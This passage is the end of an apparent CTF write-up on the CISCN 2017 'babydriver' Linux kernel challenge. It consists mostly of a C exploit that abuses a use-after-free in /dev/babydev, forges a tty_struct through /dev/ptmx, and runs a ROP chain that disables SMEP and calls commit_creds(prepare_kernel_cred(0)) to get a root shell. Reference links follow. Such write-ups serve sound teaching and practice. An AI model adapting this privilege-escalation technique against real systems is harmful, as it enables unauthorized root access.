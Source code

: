 ```c
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}
uint64_t commit_cred  = 0xffffffff810a1420;
uint64_t prepare_kernel_cred =0xffffffff810a1810;

void get_root()
{
    uint64_t (* a)();
    a = prepare_kernel_cred;
    uint64_t (* b)();
    b = commit_cred;
    b(a(0));

}
void bypass_smep()
{
    save_status();
    int f1 = open("/dev/babydev",2);
    int f2 = open("/dev/babydev",2);
    ioctl(f1,0x10001,0x2e0);
    close(f1);
    f1 = open("/dev/ptmx",2| O_NOCTTY);
    size_t buf[0x100] = {0};
    size_t fake[0x100] = {0};
    size_t rop[0x100] = {0};
    fake[7] = 0xFFFFFFFF8181BFC5;
    fake[0] = 0xffffffff8100ce6e;
    fake[1] = rop;
    fake[2] = 0xFFFFFFFF8181BFC5;
    uint ct = 0 ;
    rop[ct++] = 0xffffffff810d238d;
    rop[ct++] = 0x6f0;
    rop[ct++] = 0xffffffff81004d80; //mov cr4, rdi; pop ; ret
    rop[ct++] = 0;
    rop[ct++] = get_root;
    rop[ct++] = 0xffffffff81063694; //swapgs; pop ; ret
    rop[ct++] = 0;
    rop[ct++] = 0xffffffff814e35ef; //iretq
    rop[ct++] = shell;
    rop[ct++] = user_cs;
    rop[ct++] = user_rflags;
    rop[ct++] = user_sp;
    rop[ct++] = user_ss;
    
    read(f2,buf,0x20);
    buf[3] = fake;
    write(f2,buf,0x20);

    char trash[0x20];
    write(f1,trash,0x20);
}
int main()
{
    bypass_smep();
}
```
# 0x05 Summary

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment
[3]: https://github.com/n132/attachment/tree/main/CISCN_2017
[4]: https://code.woboq.org/linux/linux/include/linux/tty.h.html#tty_struct
[5]: https://code.woboq.org/linux/linux/include/linux/tty_driver.h.html#tty_operations